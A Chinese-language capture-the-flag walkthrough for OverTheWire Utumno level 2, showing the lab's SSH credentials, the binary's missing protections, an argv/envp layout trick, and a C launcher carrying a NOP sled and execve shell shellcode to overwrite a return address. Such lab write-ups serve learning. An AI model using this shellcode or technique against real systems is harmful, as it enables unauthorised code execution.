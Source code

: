 **SSH :** ssh utumno2@utumno.labs.overthewire.org -p 2227

**Pass :** ceewaceiph


```bash
$ ./crawl.sh 2 ceewaceiph
sshpass -p ceewaceiph scp -P 2227 utumno2@utumno.labs.overthewire.org:/utumno/utumno2  .
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

[*] '/home/z1933/workplace/vbshare/ctf/utumno2'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

拿到IDA中分析一下。

程序逻辑就是先检查程序参数的数量，如果参数数量不为0，那么就打印`Aw..`。但正常调用程序的时候参数肯定>=1的(其本身算一个)。

搜索一番找到这个方法:[Starting program using execv and passing arguments with out raising argc](https://stackoverflow.com/questions/54225622/starting-program-using-execv-and-passing-arguments-with-out-raising-argc)。原理就是参数指针数组和环境变量指针数组在内存中的布局：

```
+---------+---------------------------------------+ 
| Args    | Environment                           |
+---------+---------+---------+---------+---------+
|  NULL   | envp[0] | envp[1] | envp[2] |  NULL   | 
+---------+---------+---------+---------+---------+
    ^         ^                   ^                     
    |         |                   |
 argv[0]    argv[1]     ...     argv[3]
```

所以envp[11]=argv[10];在evnp[11]里面写shllcode地址覆盖程序返回地址。用另一个程序调用`execve`函数来启动目标程序。


不能用在终端中写环境变量的方法来了，因为调用用的是execve,环境变量会被重新设置。但可以直接写在环境变量里传参进去。

来找一个返回地址使其指向我们的雪橇中间。


```bash
utumno2@utumno:/tmp/fdk$ cat  setup.c 
#include <unistd.h>

int main(){
        char *argv[] = { NULL };
        char *envp[] = { "0", "1", "2","3","4","5","6","7","\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80","aaaabbbbccccAAAABBBB", NULL };
        execve("/utumno/utumno2", argv, envp);
}


utumno2@utumno:/tmp/fdk$ gcc -m32 setup.c -o setup

```
